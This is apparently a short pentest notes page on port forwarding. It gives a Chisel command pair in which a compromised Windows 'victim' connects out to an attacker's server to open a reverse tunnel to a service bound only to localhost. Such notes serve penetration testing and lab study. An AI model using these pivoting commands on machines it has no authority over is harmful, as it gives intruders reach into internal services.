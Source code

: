 +++
title = "Port Forwarding"
author = ["svejk"]
tags = ["pentest", "network"]
draft = false
+++

## Port Forwarding {#port-forwarding}


### Chisel {#chisel}

Compromised windows machine -- service hosted only at 127.0.0.1 -- attacker machine is server and victim machine is client:

```shell { linenos=true, linenostart=1 }
# attacker
chisel server --socks5 --reverse -p 1234
# windows victim
chiselx86_64.exe client <attacker ip>:1234 R:9090:127.0.0.1:9090
```
